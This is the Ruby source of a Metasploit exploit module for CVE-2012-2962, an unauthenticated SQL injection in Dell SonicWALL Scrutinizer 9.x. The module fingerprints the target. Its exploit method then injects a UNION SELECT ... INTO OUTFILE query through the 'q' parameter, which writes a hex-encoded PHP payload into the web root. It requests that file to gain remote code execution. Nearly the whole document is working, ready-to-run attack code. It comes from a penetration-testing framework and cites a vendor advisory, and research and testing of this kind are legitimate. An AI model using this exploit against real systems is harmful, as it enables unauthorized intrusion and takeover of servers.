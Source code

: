 EXP
---

    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # Framework web site for more information on licensing and terms of use.
    #   http://metasploit.com/framework/
    ##

    require 'msf/core'

    class Metasploit3 < Msf::Exploit::Remote
     Rank = ExcellentRanking

     include Msf::Exploit::Remote::HttpClient

     def initialize(info={})
      super(update_info(info,
       'Name'           => "Dell SonicWALL Scrutinizer 9 SQL Injection",
       'Description'    => %q{
         This module exploits a vulnerability found in Dell SonicWall Scrutinizer.
        While handling the 'q' parameter, the PHP application does not properly filter
        the user-supplied data, which can be manipulated to inject SQL commands, and
        then gain remote code execution.  Please note that authentication is NOT needed
        to exploit this vulnerability.
       },
       'License'        => MSF_LICENSE,
       'Author'         =>
        [
         'muts',
         'dookie',
         'sinn3r'
        ],
       'References'     =>
        [
         ['CVE', '2012-2962'],
         ['OSVDB', '84232'],
         ['EDB', '20033'],
         ['BID', '54625'],
         ['URL', 'http://www.sonicwall.com/shared/download/Dell_SonicWALL_Scrutinizer_Service_Bulletin_for_SQL_injection_vulnerability_CVE.pdf']
        ],
       'Payload'        =>
        {
         'BadChars' => "\x00"
        },
       'Platform'       => 'php',
       'Arch'           => ARCH_PHP,
       'Targets'        =>
        [
         # According to advisory, version 9.5.1 and before are vulnerable.
         # But was only able to test this on 9.0.1.0
         ['Dell SonicWall Scrutinizer 9.5.1 or older', {}]
        ],
       'Privileged'     => false,
       'DisclosureDate' => "Jul 22 2012",
       'DefaultTarget'  => 0))

       register_options(
        [
         OptString.new('TARGETURI', [true, 'The path to the SonicWall Scrutinizer\'s statusFilter file', '/d4d/statusFilter.php']),
         OptString.new('HTMLDIR',   [true, 'The HTML root directory for the web application', 'C:\\Program Files\\Scrutinizer\\html\\'])
        ], self.class)
     end


     def check
      res = send_request_raw({'uri'=>target_uri.host})
      if res and res.body =~ /\<title\>Scrutinizer\<\/title\>/ and
                 res.body =~ /\<div id\=\'.+\'\>Scrutinizer 9\.[0-5]\.[0-1]\<\/div\>/
       return Exploit::CheckCode::Vulnerable
      end

      return Exploit::CheckCode::Safe
     end


     def exploit
      peer = "#{rhost}:#{rport}"
      p = "<?php #{payload.encoded} ?>"
      hex_payload = p.unpack("H*")[0]
      php_fname   = Rex::Text.rand_text_alpha(5) + ".php"
      rnd_txt     = Rex::Text.rand_text_alpha_upper(3)

      print_status("#{peer} - Sending SQL injection...")
      res = send_request_cgi({
       'uri'       => target_uri.path,
       'method'    => 'POST',
       'vars_post' => {
        'commonJson' => 'protList',
        'q' => "#{rnd_txt}' union select 0x#{hex_payload},0 into outfile '../../html/d4d/#{php_fname}'#"
       }
      })

      if res and res.body !~ /No Results Found/
       print_error("#{peer} - I don't think the SQL Injection attempt worked")
       return
      elsif not res
       print_error("#{peer} - No response from the server")
       return
      end

      # For debugging purposes, this is useful
      vprint_status(res.to_s)

      target_path = "#{File.dirname(target_uri.path)}/#{php_fname}"
      print_status("#{peer} - Requesting: #{target_path}")
      send_request_raw({'uri' => target_path})

      handler
     end
    end